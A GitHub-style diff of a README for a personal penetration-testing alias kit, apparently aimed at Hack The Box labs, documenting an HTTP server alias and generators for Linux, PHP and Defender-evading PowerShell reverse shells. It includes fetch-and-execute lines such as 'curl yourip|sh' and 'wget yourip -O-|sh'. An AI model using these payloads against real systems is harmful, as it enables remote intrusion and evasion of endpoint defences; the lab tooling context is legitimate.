

Before and after one commit to jaytiwari05/my_recon-setup, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -11,3 +86,36 @@ Example:
+## Switching Between Branches
+
+Already cloned but want to switch? Easy!
+
+```bash
+# Switch to tmux branch
+cd ~/zsh-aliases
+git checkout tmux
+source ~/.zshrc
+start_htb
+
+# Switch back to main (terminator) branch
+cd ~/zsh-aliases
+git checkout main
+source ~/.zshrc
+start_htb
+```
+
+> ### ⚠️ Important Note
+> The `start_htb.py` script has different implementations in each branch tailored for the specific terminal environment. Make sure to use the branch that matches your terminal preference.
+
+---
+
+> ### Disclaimer
+> Most of these aliases were built for practicality over elegance. Feel free to submit pull requests to reduce the "pepeganess". For now, if it works, it ships! 😄
+
+## Core Features
+
+### 🚀 Misc Utilities
+
+#### **www**
+Starts a HTTP server on port 80 in the current directory with network information.
+```bash
 ┌──(root㉿pain)-[/tmp/www]
 └─$ www
 [eth0] 192.168.172.128
@@ -15,59 +123,46 @@ Example:
 linpeas.sh  pspy64
 Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
 ```
-> #### Notes
-> - Sudo is used to ensure being able to listen on port 80
+> **Note**: Uses sudo for port 80 binding
 
-### > tun0
-
-Copies the IP addres of the tun0 interface to the clipboard.
-Example:
-```
+#### **tun0**
+Copies the IP address of tun0 interface to clipboard.
+```bash
 ┌──(root㉿pain)-[~/pain]
 └─$ tun0
-```
-Clipboard contents after:
-```
-10.10.14.41
+# Clipboard: 10.10.14.41
 ```
 
-### > mkdir_cd
-Often when making a directory I want to directly `cd` into it after. This does exactly that.
-Example:
-```
+#### **mkdir_cd**
+Create directory and immediately cd into it.
+```bash
 ┌──(root㉿pain)-[~/pain]
 └─$ mkdir_cd meow
-
 ┌──(root㉿pain)-[~/pain/meow]
 └─$
 ```
 
-## Reverse shells
-### > gen_lin_rev $ip $port
-Based on [RSaaS](https://github.com/lukechilds/reverse-shell). Creates a file called `index.html` in the current directory. This file contains multiple reverse shell payloads that will be attempted in sequence until one works. Can be used with `www` to make spawning a reverse shell after gaining RCE extremely easy and fast. Just make the target execute `curl yourip|sh` and it will retrieve the reverse shell payload from your webserver and -hopefully- connect back to your listener.
-Example:
-```
+### 🔄 Reverse Shells
+
+#### **gen_lin_rev $ip $port**
+Generates multi-payload reverse shell HTML page for Linux targets.
+```bash
 ┌──(root㉿pain)-[~]
 └─$ gen_lin_rev 127.0.0.1 1337
 [+] Wrote Linux reverse shells to /home/pain/index.html
 ```
-> #### Notes
-> - I really like how the `curl yourip|sh` payload doesn't really have any badchars besides possibly the space and the pipe. When spaces form an issue there are [ways around this](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) and the pipe can be bypassed by just downloading and executing separately.
-> - If curl is not installed on the remote machine you can try `wget yourip -O-|sh`
+Perfect for: `curl your_ip | sh`
 
-
-### > gen_php_rev $ip $port
-
-Generates the [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) with the supplied ip and port and saves it in the current directory.
-Example:
-```
+#### **gen_php_rev $ip $port**
+Generates PentestMonkey PHP reverse shell.
+```bash
 ┌──(root㉿pain)-[~]
 └─$ gen_php_rev 127.0.0.1 1337
 [+] Wrote PHP reverse shell to /home/pain/pain.php
 ```
-### > gen_ps_rev $ip $port
-Generates a Powershell reverse shell with the supplied ip and port which at the moment of last usage bypassed defender. I'm not sure who to give credit for this payload.
-Example:
-```
+
+#### **gen_ps_rev $ip $port**
+Generates Defender-bypassing PowerShell reverse shell (copied to clipboard).
+```bash
 ┌──(root㉿pain)-[~]
 └─$ gen_ps_rev 127.0.0.1 1337
````
Also changed, not shown: other parts of README.md (+178 -164 lines).
